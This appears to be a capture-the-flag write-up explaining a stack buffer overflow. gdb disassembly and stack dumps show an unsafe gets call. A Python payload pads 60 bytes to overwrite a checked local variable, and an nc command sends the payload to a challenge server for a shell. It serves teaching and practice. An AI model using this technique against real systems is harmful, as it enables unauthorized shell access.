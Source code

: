 ## Initial Attempt

The binary asks for an input: hints to potential buffer overflow.

Debug the binary in gdb to confirm this.

```asm
(gdb) disas main
Dump of assembler code for function main:
...
0x00000000000008c9 <+59>:    lea    -0x40(%rbp),%rax
0x00000000000008cd <+63>:    mov    %rax,%rdi
0x00000000000008d0 <+66>:    mov    $0x0,%eax
0x00000000000008d5 <+71>:    call   0x6d0 <gets@plt>
0x00000000000008da <+76>:    cmpl   $0x539,-0x4(%rbp)
0x00000000000008e1 <+83>:    jne    0x8f9 <main+107>
...
```

## Observation

Line `<main+71>` invokes `gets` call followed by line `<main+76>` which does a comparison of `$rbp - 0x4` and `0x539`, put a breakpoint here and run the program, input a large amount of `A` characters to find the boundary

```python title="buffer.py"
import sys
sys.stdout.write("A" * 32)
```

```shell
$ python buffer.py > payload
```

Set a breakpoint, run the program and feed the payload and look at `$rbp - 0x4` and stack

```asm
(gdb) b *main+76
Breakpoint 1 at 0x8da
(gdb) r < payload
(gdb) x/x $rbp-0x4
0x7fffffffda8c: 0x00000539
(gdb) x/32x $rsp
0x7fffffffda50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe5f70      0x00007fff
0x7fffffffda80: 0x00000000      0x00000000      0xf7ffdad0      0x00000539
0x7fffffffda90: 0x00000001      0x00000000      0xf7dfd24a      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x5540088e      0x00005555
0x7fffffffdab0: 0x55400040      0x00000001      0xffffdba8      0x00007fff
0x7fffffffdac0: 0xffffdba8      0x00007fff      0x7210abdb      0x123ae0f0
(gdb)
```

Notice `$rbp - 0x4` appears in the stack as follows and so does 32 bytes of `0x41` which is `A`:

```asm
0x7fffffffda50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x00000000      0x00000000      0xf7fe5f70      0x00007fff
                                                              + ---------- +
0x7fffffffda80: 0x00000000      0x00000000      0xf7ffdad0    | 0x00000539 |
                                                              + ---------- +
0x7fffffffda90: 0x00000001      0x00000000      0xf7dfd24a      0x00007fff
0x7fffffffdaa0: 0xffffdb90      0x00007fff      0x5540088e      0x00005555
0x7fffffffdab0: 0x55400040      0x00000001      0xffffdba8      0x00007fff
0x7fffffffdac0: 0xffffdba8      0x00007fff      0x7210abdb      0x123ae0f0
```

## Solution

We see the program halts because it checks the value of `$rbp - 0x4` against `0x539`. If we can change this, we can force the variable to change.
So input 60 bytes of `A` and then whatever comes next will be overflown to take the value of `$rbp - 0x4`

```python title="buffer.py"
import sys
padding = "A" * 60
value = "\x01\x02\x03\x04"
sys.stdout.write(padding + value)
```

Write this to payload file and run it again in gdb
```asm
(gdb) r < payload
Breakpoint 1, 0x00005555554008da in main ()
(gdb) x/32x $rsp
0x7fffffffda50: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda60: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda70: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffda80: 0x41414141      0x41414141      0x41414141      0x04030201
0x7fffffffda90: 0x00000000      0x00000000      0xf7dfd24a      0x00007fff
```

Voila, continue and you will see the program starts a shell

```shell
(cat payload; cat) | nc 10.201.92.179 9001
```

You will get a shell, `cat flag.txt` and complete the challenge
